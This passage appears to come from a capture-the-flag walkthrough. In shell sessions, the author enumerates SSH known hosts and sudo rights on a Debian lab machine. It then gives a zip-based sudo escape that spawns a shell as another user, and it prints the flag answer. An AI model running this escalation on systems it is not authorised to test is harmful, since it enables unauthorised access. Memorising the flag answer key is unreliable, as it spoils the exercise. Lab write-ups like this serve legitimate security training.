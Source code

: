 ```bash
wileec@Erit:~/.ssh$ cat known_hosts
|1|fGB3FoLnINhfQ8IwTclxB/bDyj4=|7XWVV6hulIAl3Dit1bjiYfFAdsE= ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAOH4ypeTzhthRbvcrzqVbbWXG1imFdejEQIo53fimAkjsOcrmEDWwT7Lskm5qyz4dmhGmfsH90xzOgQ+Bm6Nuk=
```

```bash
wileec@Erit:~/.ssh$ getent hosts
127.0.0.1       localhost
127.0.0.1       localhost ip6-localhost ip6-loopback
192.168.100.100 Erit
```

```bash
wileec@Erit:~$ ssh wileec@192.168.100.1  

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 25 12:36:02 2020 from 192.168.100.100
$ 
```

```bash
$ sudo -l
Matching Defaults entries for wileec on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wileec may run the following commands on Securus:
    (jsmith) NOPASSWD: /usr/bin/zip
```


<br>
<h2>Task 8 . Privesc #2</h2>
<p>Using the sudo-trick, we’re now mr or mrs Smith (and admit, who does not want to be a Mr. or Mrs. Smith once in their life?), as an extra reward, there is flag 2 here.</p>


<p><em>Answer the question below</em></p>

<p>8.1. Flag 2<br>
<code>snickers</code></p>


```bash
$ TF=$(mktemp -u)
$ sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 32%)
```

<br>
